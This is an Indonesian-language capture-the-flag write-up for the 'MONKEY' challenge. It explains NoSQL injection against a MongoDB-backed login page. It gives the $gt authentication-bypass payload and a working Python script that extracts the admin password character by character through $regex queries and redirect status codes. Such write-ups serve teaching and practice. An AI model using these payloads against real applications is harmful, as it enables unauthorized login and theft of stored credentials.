 # **MONKEY**

NoSQL injection adalah serangan yang ditujukan untuk melanggar keamanan aplikasi yang menggunakan database NoSQL. Serangan ini mirip dengan serangan SQL injection, tetapi ditargetkan pada database NoSQL yang menggunakan model datanya yang berbeda dengan database relasional.

Dalam serangan NoSQL injection, penyerang mencoba memanipulasi atau menyisipkan data yang tidak valid atau berbahaya ke dalam permintaan atau operasi database NoSQL. Tujuan utama serangan ini adalah untuk mendapatkan akses yang tidak sah ke data sensitif atau merusak integritas data dalam database NoSQL.
## **About the challenge**
Pada Challenge ini, Probleset meminta pemain untuk login sebagai admin dan memberikan halaman login serta akun guest:guest untuk masuk.

![monkey](./image/monkey1.PNG)
## **Solution**
Saya mencoba login dan hanya muncul pesan "Welcome, guest". Ditambah dengan gambar monyet yang sedikit ngeselin. Tujuan saya adalah untuk login sebagai admin. Setelah saya login sebagai admin, tidak ada flag yang tertera. Tempat injeksi yang mungkin adalah halaman login.

Tentu saja hal pertama yang saya lakukan adalah injeksi SQL, tetapi setelah mencoba-coba dengan halaman login untuk beberapa waktu, saya mengerti bahwa itu tidak ada hubungannya dengan SQL. Cara selanjutnya adalah mencoba NoSQL dan kemudian saya mendapatkan hasil yang sangat menarik. Dari injeksi awal, tampaknya basis data backend menggunakan MongoDB dan saya memutuskan untuk membaca sedikit lebih banyak tentangnya.

Secara sederhana, MongoDB bekerja seperti ini:

Request: ```login.php?user=admin&password=1```

```php
$collection->find(array(
    "username" => "admin",
    "password" => "1"
));
```
---------------------------
Username dan password dikumpulkan dari data yang masuk dan database langsung dicari menggunakan data tersebut. 
Lalu bagaimana jika kita dapat melewatkan objek atau array?

Request: ```login.php?user[$gt]=&password[$gt]=```
```php
$collection->find(array(
    "username" => array("$gt" => 1),
    "password" => array("$gt" => 1)
));
```
Ini akan menghindari skema Autentikasi dan akan memasukkan kita langsung ke akun pertama di database, yaitu admin! Jadi sekarang kita sudah masuk sebagai admin! Tetapi flag-nya adalah password admin jadi saya perlu mengekstraknya. Saya mencari di Google cara mengekstrak data tetapi tidak memberi saya banyak pilihan. Kemudian saya mengetahui tentang $regex yang digunakan untuk membandingkan karakter password satu per satu. Jadi berikut adalah logikanya:

saya menginisiasi permintaan dengan ```user=admin&password[$regex]=F.*```. Anda dapat melihat bahwa ini memberikan pengalihan ```302``` karena password dimulai dengan F (karena password adalah flag dan sesuai dengan aturan, flag dimulai dengan ```ForestyHC```). Untuk semua karakter lainnya, itu memberikan kode status ```200```. saya dapat dengan mudah mengotomatiskan ini untuk menemukan sisa password.

saya menggunakan script dibawah ini
```python
import requests
import string

# We are sure that password is the flag which starts with "TWCTF{"
# and ends with "}"

flag = "ForestyHC{"
url = "http://103.167.136.89:10002/"

# Each time a 302 redirect is seen, we should restart the loop

restart = True

while restart:
    restart = False

    # Characters like *, ., &, and + has to be avoided because we use regex

    for i in string.ascii_letters + string.digits + "!@#$%^()@_{}":
        payload = flag + i
        post_data = {'username': 'admin', 'password[$regex]': payload + ".*"}
        r = requests.post(url, data=post_data, allow_redirects=False)

        # A correct password means we get a 302 redirect

        if r.status_code == 302:
            print(payload)
            restart = True
            flag = payload

            # Exit if "}" gives a valid redirect

            if i == "}":
                print("\nFlag: " + flag)

                exit(0)
            break
```
Skrip berfungsi sebagai berikut:

1) Karena kata sandi adalah flag, kita yakin bahwa kata sandi dimulai dengan ```ForestyHC{```sehingga hal ini dapat digunakan untuk memverifikasi apakah yang saya lakukan adalah benar.

2) Saya berasumsi bahwa karakter seperti ```+, * dan &``` tidak akan ada karena dapat mengganggu Regex (dan hokinya saya tidak ada!)

3) Skrip berhenti ketika saya mendapatkan pengalihan ```302``` ketika karakternya adalah } karena saya yakin bahwa karakter akhir akan menjadi } (lagi, karena kata sandi sama dengan flagnya).

![monkey2](./image/monkey2.jpeg)

And we got flag
```
ForestyHC{reject_humanity_return_to_monke_5543d8}
```
